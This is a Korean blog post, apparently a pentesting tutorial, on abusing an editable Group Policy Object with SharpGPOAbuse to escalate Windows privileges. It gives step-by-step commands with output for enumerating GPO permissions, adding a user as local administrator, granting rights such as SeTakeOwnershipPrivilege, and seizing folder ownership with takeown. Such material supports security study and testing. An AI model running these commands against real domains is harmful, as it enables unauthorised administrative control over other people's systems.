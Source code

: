 ```yaml
---
layout: post
title: 윈도우 그룹폴리시 취약점
subtitle: SharpGPOAbuse를 이용한 윈도우 권한 상승 방법
category: knowledge
thumbnail-img: /assets/img/knowledge/sharp.webp
tags: [windows, GPO, grouppolicy, sharpgpoabuse]
author: Hong
---
```

윈도우 머신의 그룹 폴리시에 설정 미스가 있을 때 이를 이용하여 권한을 상승시킬 수 있다.
# Group policy 확인
`Get-Gpo -All`명령어로 리스트를 확인할 수 있다.
```powershell
DisplayName      : Default Domain Policy
DomainName       : test.com
Owner            : TEST\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 8/5/2022 6:20:58 PM
ModificationTime : 10/25/2022 5:39:34 PM
UserVersion      : AD Version: 3, SysVol Version: 3
ComputerVersion  : AD Version: 70, SysVol Version: 70
WmiFilter        :

DisplayName      : Default Domain Controllers Policy
DomainName       : test.com
Owner            : TEST\Domain Admins
Id               : 6ac1786c-016f-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 8/5/2022 6:20:58 PM
ModificationTime : 10/25/2022 5:34:04 PM
UserVersion      : AD Version: 1, SysVol Version: 1
ComputerVersion  : AD Version: 2, SysVol Version: 2
WmiFilter        :
```
두개가 나오는데 이 중 위의 폴리시의 권한을 확인해보겠다.
```
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName <유저명>

Trustee     : TEST
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
위의 퍼미션을 보면 Edit가 가능한 것을 알 수 있다.

이 그룹 폴리시를 수정해서 유저의 권한을 상승시킬 수 있다.

# 권한 상승 및 추가
`.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <유저명> --GPOName "Default Domain Policy"`

위에서 발견한 폴리시 이름을 GPOName에 넣고 추가할 유저를 적는다.

변경 사항을 적용시키기 위해 `gpupdate /force`를 입력.

그 후`net localgroup administrators` 명령어로 로컬 그룹 관리자 리스트를 확인해보면 새롭게 유저가 추가 된 것을 확인할 수 있다.

그 외에도 원하는 특권을 추가시키는 것도 가능하다. 

예를들어, 아래는 추가 전 현재 가지고 있는 특권들의 리스트.
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeMachineAccountPrivilege     Add workstations to domain                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```
이제 새로운 특권들을 추가해보겠다.
```powershell
./SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount charlotte --GPOName "Default Domain Policy"
```
위와 같이 추가해준 다음 `gpupdate /force`을 입력 후 유저를 한 번 로그아웃 한다. 그리고 다시 로그인하면 새롭게 특권들이 추가된 것을 확인할 수 있다.
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```
이렇게나 많은 권한들이 추가된 것을 알 수 있다! 

새로 생긴 특권들을 이용하여 다음 명령어를 사용하면 폴더의 권한을 빼앗는 것까지 가능하다.
`takeown /F "C:\Users\Path-With-No-Permission" /A /R /D Y`

초기 진입 후 권한 상승시 그룹 폴리시를 확인해 볼 것!
